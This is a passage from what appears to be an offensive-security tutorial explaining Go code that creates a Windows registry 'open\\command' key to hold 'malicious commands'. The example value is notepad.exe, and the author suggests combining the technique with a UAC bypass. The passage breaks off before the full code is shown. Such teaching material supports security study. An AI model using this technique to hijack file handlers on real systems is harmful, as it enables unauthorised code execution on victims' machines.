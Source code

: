 ### Closing the Registry Key

```go
defer bin_key.Close()
```

- `defer` is a keyword that schedules the `Close` method to be called when the surrounding function (not shown here) exits.
- This ensures that the opened registry key is properly closed to free resources, even if an error occurs later in the code.


Then we create the new registry where our malicious commands will be

```go
...

k, _, err := registry.CreateKey(
  bin_key,
  "open\\command",
  registry.ALL_ACCESS,
)

if err != nil {
  fmt.Println("CreateKey error!")
  log.Fatal(err)
}

...
```

- This section of code creates a new registry key.

- `registry.CreateKey` is a function that takes three arguments:
  - `bin_key`: This is the parent key we opened earlier. The new key will be created under this key.
  - `"open\\command"`: This is the name of the new registry subkey we want to create. It is formatted as a string and uses double backslashes (\\) to escape the backslash character.
  - `registry.ALL_ACCESS`: This specifies the permissions for the new key. In this case, it grants all possible access rights.


And finally we set the value, in our case it’s a simple notepad but you could be creative to combine it with other things like UAC bypass and more

```go
...

err = k.SetStringValue("", "notepad.exe")
if err != nil {
  log.Fatal(err)
}

...
```

Let’s add more output and the final code should be something like this:

